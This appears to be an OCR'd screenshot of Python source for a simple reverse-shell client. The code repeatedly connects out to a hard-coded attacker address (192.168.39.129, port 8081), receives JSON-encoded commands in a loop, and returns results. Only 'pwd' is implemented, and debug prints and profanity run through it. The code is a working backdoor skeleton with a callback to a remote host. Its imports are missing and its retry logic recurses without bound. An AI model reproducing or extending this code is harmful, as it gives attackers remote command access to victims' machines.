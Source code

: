 def reliable_recv():
    print("Reliably reieved")
    data = ""
    while True:
        try:
            print(data)
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    print("Reliably Recved")
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    print("Inside the shell functions")
    while True:
        command = reliable_recv()
        print("Command Recieved")
        if command == 'terminate':
           connection_to_attacker.close()
           break
        elif command == 'pwd':
            try:
                print("HEEEEEEEEEEEE")
                files = os.getcwd()
                files = str(files)
                print(files)
                reliable_send(files)
            except:
                pass
        elif command == 'clear':
            pass
        else:
            print("FuckOff")
                

def connection():
    while True:
        print("connection sending")
        #random.randint(5,15)
        time.sleep(5)
        try:
            print("Trying to send connection to the attacker")
            connection_to_attacker.connect(("192.168.39.129", 8081))
            print("call To the shell function")
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
